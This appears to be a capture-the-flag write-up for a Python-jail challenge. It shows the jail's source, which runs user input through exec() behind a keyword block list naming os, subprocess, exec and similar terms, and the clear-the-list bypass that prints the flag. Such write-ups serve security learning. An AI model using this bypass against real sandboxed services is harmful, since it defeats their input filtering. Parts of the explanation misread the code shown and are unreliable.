 # Locked Away
A test! Getting onto the team is one thing, but you must prove your skills to be chosen to represent the best of the best. They have given you the classic - a restricted environment, devoid of functionality, and it is up to you to see what you can do. Can you break open the chest? Do you have what it takes to bring humanity from the brink?

## Solution

try connecting to server..

```sh
$ nc 94.237.53.177 56682

.____                  __              .___    _____
|    |    ____   ____ |  | __ ____   __| _/   /  _  \__  _  _______  ___.__.
|    |   /  _ \_/ ___\|  |/ // __ \ / __ |   /  /_\  \ \/ \/ /\__  \<   |  |
|    |__(  <_> )  \___|    <\  ___// /_/ |  /    |    \     /  / __ \\___  |
|_______ \____/ \___  >__|_ \\___  >____ |  \____|__  /\/\_/  (____  / ____|
        \/          \/     \/    \/     \/          \/             \/\/

The chest lies waiting... os
Invalid command!
The chest lies waiting... import
Invalid command!
The chest lies waiting... ls
You have been locked away...
```

then, open the source code of the program

```py
def open_chest():
    with open('flag.txt', 'r') as f:
        print(f.read())
blacklist = [
    'import', 'os', 'sys', 'breakpoint',
    'flag', 'txt', 'read', 'eval', 'exec',
    'dir', 'print', 'subprocess', '[', ']',
    'echo', 'cat', '>', '<', '"', '\'', 'open'
]
print(banner)
while True:
    command = input('The chest lies waiting... ')
    if any(b in command for b in blacklist):
        print('Invalid command!')
        continue
    try:
        exec(command)
    except Exception:
        print('You have been locked away...')
        exit(1337)
```

If seen from the source code of the program, it means that we can only input something that is only in the `blacklist` variable, otherwise the program will stop. Even though there is an output "Invalid command!" our input will still be executed.

so we can do a command to trick the program.
```sh
blacklist = []
```
Rather than trying to bypass the `blacklist`, we’ll overwrite it.
```sh
blacklist.clear()
```
used to empty the `blacklist` array
```sh
open_chest()
```
access the `open_chest()` function

# Flag
    HTB{bYp4sSeD_tH3_fIlT3r5?_aLw4Ys_b3_c4RefUL!_98d97285e914e5db0aba3497b4b8c41b}